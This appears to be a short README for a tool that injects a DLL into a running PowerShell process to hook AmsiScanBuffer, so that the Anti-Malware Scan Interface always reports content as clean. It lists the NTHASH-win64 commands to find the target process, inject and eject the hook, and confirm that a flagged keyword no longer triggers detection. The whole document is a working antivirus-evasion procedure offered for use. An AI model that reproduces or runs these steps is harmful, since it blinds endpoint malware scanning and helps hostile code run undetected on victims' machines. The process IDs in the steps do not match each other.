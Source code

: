 Hook AmsiScanBuffer and send an "ok" result, always.

AMSI stands for Anti-Malware Scan Interface and was introduced in Windows 10. 
The name is reasonably self-explanatory; 
this is an interface that applications and services are able to utilise, 
sending “content” to an anti-malware provider installed on the system (e.g. Windows Defender).

How to proceed:</br></br>

Lets retrieve the pid of our target victim (here powershell) : nthash-win64 /enumproc | findstr powershell</br>
NTHASH-win64.exe /inject /pid:123 /binary:c:\temp\hook-win64.dll</br>
optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
Launch powershell and test a sensible keyword such as 'AmsiScanBuffer' and notice it does not trigger AMSI
NTHASH-win64.exe /eject /pid:123 /binary:hook-win64.dll</br>
optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
optionally check c:\log.txt to make sure the hook went fine</br>
</br></br>

